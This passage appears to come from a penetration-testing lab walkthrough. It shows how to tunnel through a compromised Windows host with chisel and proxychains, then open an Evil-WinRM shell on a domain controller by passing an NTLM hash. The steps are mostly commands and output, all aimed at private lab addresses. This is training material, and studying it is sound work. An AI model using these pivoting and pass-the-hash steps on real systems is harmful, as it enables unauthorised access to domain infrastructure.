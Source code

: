 They will return to the previously established RDP session on `SRV02` (`172.20.0.52`), open `PowerShell` and upload `chisel`'s executable:

Code: powershell

```powershell
copy \\TSCLIENT\student\chisel.exe
```

```
PS C:\Users\Leonvqz> copy \\TSCLIENT\student\chisel.exe
```

Subsequently, students will proceed to initiate a connection to the chisel's server on `SRV01` in `client` mode from `SRV02`:

Code: powershell

```powershell
.\chisel.exe client 172.20.0.51:8081 R:2080:socks
```

```
PS C:\Users\Leonvqz> .\chisel.exe client 172.20.0.51:8081 R:2080:socks

2024/07/12 01:22:46 client: Connecting to ws://172.20.0.51:8081
2024/07/12 01:22:46 client: Connected (Latency 515.6µs)
```

Students will return to their workstations and append a new configurational setting in `/etc/proxychains.conf` tunneling the traffic on port `2080`:

Code: shell

```shell
sudo sh -c "echo socks5 127.0.0.1 2080 >> /etc/proxychains.conf"
```

```
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-fwzmhuxy3m]─[~]
└──╼ [★]$ sudo sh -c "echo socks5 127.0.0.1 2080 >> /etc/proxychains.conf"
```

Once they have appended the addition, students will connect with `Evil-WinRM` to `DC01` (`172.20.0.10`) as the user `Leonvqz` and the hash `A35289033D176ABAAF6BEAA0AA681400`:

Code: shell

```shell
proxychains evil-winrm -i 172.20.0.10 -u leonvqz -H A35289033D176ABAAF6BEAA0AA681400
```

```
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-fwzmhuxy3m]─[~]
└──╼ [★]$ proxychains evil-winrm -i 172.20.0.10 -u leonvqz -H A35289033D176ABAAF6BEAA0AA681400

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:2080  ...  172.20.0.10:5985  ...  OK
*Evil-WinRM* PS C:\Users\Leonvqz\Documents>
```
